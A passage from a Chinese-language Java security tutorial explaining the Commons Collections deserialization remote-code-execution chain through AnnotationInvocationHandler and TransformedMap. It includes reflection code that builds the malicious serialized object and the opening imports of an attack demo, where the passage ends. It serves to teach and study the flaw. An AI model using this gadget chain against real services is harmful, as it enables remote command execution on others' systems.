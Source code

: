 ```java
```

**`readObject`方法:**

![image-20191220181251898](https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191220181251898.png)

上图中的第`352`行中的`memberValues`是`AnnotationInvocationHandler`的成员变量，`memberValues`的值是在`var1.defaultReadObject();`时反序列化生成的，它也就是我们在创建`AnnotationInvocationHandler`时传入的带有恶意攻击链的`TransformedMap`。需要注意的是如果我们想要进入到`var5.setValue`这个逻辑那么我们的序列化的`map`中的`key`必须包含创建`AnnotationInvocationHandler`时传入的注解的方法名。

既然利用`AnnotationInvocationHandler`类我们可以实现反序列化`RCE`,那么在序列化`AnnotationInvocationHandler`对象的时候传入我们精心构建的包含了恶意攻击链的`TransformedMap`对象的序列化字节数组给远程服务，对方在反序列化`AnnotationInvocationHandler`类的时候就会触发整个恶意的攻击链，从而也就实现了远程命令执行了。

**创建`AnnotationInvocationHandler`对象：**

因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，在外部我们无法通过类名创建出`AnnotationInvocationHandler`类实例，所以我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

```java
// 创建Map对象
Map map = new HashMap();

// map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
// AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
// 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
// 类调用其自身实现的readObject方法时无法通过if判断也就无法通过调用到setValue方法了。
map.put("value", "value");

// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

// 获取AnnotationInvocationHandler类对象
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

// 获取AnnotationInvocationHandler类的构造方法
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

// 设置构造方法的访问权限
constructor.setAccessible(true);

// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
Object instance = constructor.newInstance(Target.class, transformedMap);
```

`instance`对象就是我们最终用于序列化的`AnnotationInvocationHandler`对象，我们只需要将这个`instance`序列化后就可以得到用于攻击的`payload`了。

**完整的攻击示例Demo:**

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
```